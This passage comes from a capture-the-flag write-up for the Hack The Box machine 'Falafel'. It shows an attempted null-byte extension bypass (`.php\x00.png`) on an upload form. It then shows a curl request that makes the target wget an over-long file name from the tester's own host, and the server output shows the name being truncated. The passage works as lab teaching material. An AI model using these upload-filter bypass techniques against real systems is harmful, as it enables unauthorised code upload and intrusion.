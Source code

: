 Found one allowed extension(`.php\x00.png`) but couldn't really upload the file.

![](attachments/falafel_11.png)

At this time, I saw the `admin`'s profile expecting that there might be some hint as we found from `chris`'s profile.

![](attachments/falafel_12.png)

It's talking about "limits". 
What if it has to do with the length of the uploaded file name?

For test, I sent a request with long file name.
Then, interestingly, the response has been somewhat changed.

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ URL=$(python2 -c 'print "http://10.10.14.4:8000/" + "A"*250 + "test.png"'); curl -i -s -k -X POST -H 'Referer: http://10.10.10.73/upload.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: PHPSESSID=58v4ia0qr6j6r7mkkq12ftk235' -d "url=$URL" http://10.10.10.73/upload.php

<SNIP>
        <pre>CMD: cd /var/www/html/uploads/0307-1100_2b88afe3bbfb4cf9; wget 'http://10.10.14.4:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest.png'</pre>  
        <pre>The name is too long, 258 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
--2025-03-07 11:00:01--  http://10.10.14.4:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtest.png
Connecting to 10.10.14.4:8000... connected.
HTTP request sent, awaiting response... 404 File not found
2025-03-07 11:00:01 ERROR 404: File not found.
```
